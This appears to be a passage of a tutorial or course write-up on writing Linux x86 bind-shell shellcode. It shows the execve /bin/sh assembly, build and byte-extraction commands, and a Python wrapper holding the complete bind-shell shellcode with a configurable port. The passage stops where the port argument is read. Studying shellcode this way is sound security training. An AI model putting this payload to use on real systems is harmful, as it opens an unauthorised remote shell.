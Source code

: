 ```x86asm
	mov al, 0xb			; syscall: execve (11) int execve(const char *pathname, char *const argv[], char *const envp[]);

	xor edx, edx		; envp (NULL)
	push edx			; push 0x00 null terminator for string
	push 0x68732f2f		; "hs//"   LITTLE ENDIAN
	push 0x6e69622f 	; "nib/"


	mov ebx, esp		; pathname: point ebx to stack
	mov ecx, edx		; NULL

	int 0x80			; execute execve
```

## Making the port dynamic

To accomplish the second part of this assignment, I must make the port dynamic. In order to do this, I will write a python script that wraps the shellcode and inserts the port number from an argument in the python script.

To do this, I will first get the shellcode of the compiled and linked assembly binary, then replace the hex values representing the port.

To compile and link the assmebly, I run this command on the bind.nasm assembly file:

```bash
nasm -F dwarf -g -F dwarf -f elf32 -o bind.o bind.nasm
ld -m elf_i386 -z execstack -N -o bind bind.o  
```

This should result in a binary called `bind`. To get the shellcode, I execute:
```bash
objdump -d "bind" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

This outputs shellcode and we can find the place where our port is located as the hex value we pushed to the stack was `\x05\x39`. Now we must find/replace this value with our new port. An important note is that our hex value must be in big endian (network byte order) as opposed to our local linux architecture of little endian, so I will have to reverse the byte order when getting the hex value of our port number.

The Python script that takes in a port number, converts it to the proper byte order format, and outputs shellcode is as follows:

```python
#/bin/python3

import sys
import socket
import struct

shellcode1 = "\\x31\\xdb\\xf7\\xe3\\x31\\xc9\\xb0\\x66\\xb3\\x01\\x6a\\x06\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb0\\x66\\xb3\\x02\\x51\\x66\\x68"
# shellcode_port += "\\x05\\x39"
shellcode2 = "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb0\\x66\\xb3\\x04\\x51\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb0\\x66\\xb3\\x05\\x51\\x51\\x57\\x89\\xe1\\xcd\\x80\\x93\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\xb0\\x0b\\x31\\xd2\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xcd\\x80"

if not len(sys.argv) == 2:
    print(f"Usage: python3 {sys.argv[0]} <port>")
    sys.exit()

port = sys.argv[1]
```